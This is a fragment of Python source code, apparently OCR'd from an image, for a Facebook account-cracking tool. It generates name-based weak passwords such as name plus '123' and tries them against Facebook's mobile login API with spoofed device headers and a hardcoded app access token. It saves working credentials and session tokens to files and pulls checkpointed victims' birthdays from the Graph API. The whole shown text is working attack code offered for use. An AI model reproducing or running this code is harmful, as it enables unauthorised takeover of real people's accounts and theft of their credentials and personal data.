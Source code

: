          if len(name)>=6:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          elif len(name) == 3 or len(name) == 4 or len(name) == 5:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          else:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          coeg.submit(crack, uid, pwx, "https://m.facebook.com")
      exit("\n\n [#] crack complete...")
    else:
      exit("\n [!] correct content")
  else:
    menu() 

def api(uid, pwx):
  try:
    ua = open(".ua", "r").read()
  except IOError:
    ua = ("Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]")
  global ok, cp, loop, token
  sys.stdout.write(
    "\r [*] crack %s/%s ok:-%s - cp:-%s "%(loop, len(id), len(ok), len(cp))
  ); sys.stdout.flush()
  for pw in pwx:
    pw = pw.lower()
    ses = requests.Session()
    headers_ = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}
    send = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers_)
    if "session_key" in send.text and "EAAA" in send.text:
      print("\r  \033[0;92m* --> %s|%s|%s\033[0;97m"%(uid, pw, send.json()["access_token"]))
      ok.append("%s|%s"%(uid, pw))
      open("OK/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
      break
    elif "www.facebook.com" in send.json()["error_msg"]:
      try:
        token = open("login.txt", "r").read()
        with requests.Session() as ses:
          ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
          month, day, year = ttl.split("/")
          month = bulan_ttl[month]
          print("\r  \033[0;93m* --> %s|%s|%s %s %s\033[0;97m"%(uid, pw, day, month, year))
          cp.append("%s|%s"%(uid, pw))
          open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s|%s %s %s\n"%(uid, pw, day, month, year))
          break
      except (KeyError, IOError):
        day = (" ")
        month = (" ")
        year = (" ")
      except:pass
      print("\r  \033[0;93m* --> %s|%s\033[0;97m        "%(uid, pw))
      cp.append("%s|%s"%(uid, pw))
      open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
      break
    else:
      continue
